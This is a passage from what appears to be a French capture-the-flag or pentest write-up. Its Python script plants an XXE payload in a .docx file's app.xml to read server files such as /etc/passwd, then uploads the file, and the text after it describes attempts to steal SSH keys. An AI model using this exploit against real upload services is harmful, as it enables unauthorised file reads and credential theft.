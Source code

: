 ```python

shutil.copyfile(docx_file, zip_file)

# Extraire les fichiers dans l'archive

os.makedirs(extracted_dir, exist_ok=True)
with zipfile.ZipFile(zip_file, 'r') as zip_ref:
    zip_ref.extractall(extracted_dir)

# Payload

app_xml_path = os.path.join(extracted_dir, "docProps", "app.xml")
if os.path.exists(app_xml_path):
    with open(app_xml_path, "r", encoding="utf-8") as f:
        content = f.read()

    new_content = content.replace("file:///etc/passwd", f"file://{xxe_target}")

    with open(app_xml_path, "w", encoding="utf-8") as f:
        f.write(new_content)
else:
    print(" app.xml introuvable.")
    exit(1)

# Nouvelle archive

with zipfile.ZipFile(modified_docx, 'w', zipfile.ZIP_DEFLATED) as new_zip:
    for root, _, files in os.walk(extracted_dir):
        for file in files:
            full_path = os.path.join(root, file)
            arcname = os.path.relpath(full_path, extracted_dir)
            new_zip.write(full_path, arcname)

print(f" Fichier modifié : {modified_docx} (payload: {xxe_target})")

with open(modified_docx, "rb") as f:
    files = {
        "file": (modified_docx, f, "application/vnd.openxmlformats-officedocument.wordprocessingml.document")
    }
    print("Envoi en cours") # Vers l'endpoint /read qui est celui utilisé pour la deuxième option.
    response = requests.post(upload_url, files=files)

print(f"\n Statut HTTP : {response.status_code}")
print(" Réponse serveur :\n")
print(response.text)
```
> Il faudrait obtenir un accès persistant à la machine — l’accès SSH paraît être l’option la plus réaliste.

On essaie de récupérer plusieurs fichiers systèmes comme les clés ssh mais une erreur indique que nous n'avons pas les droits pour les lire.

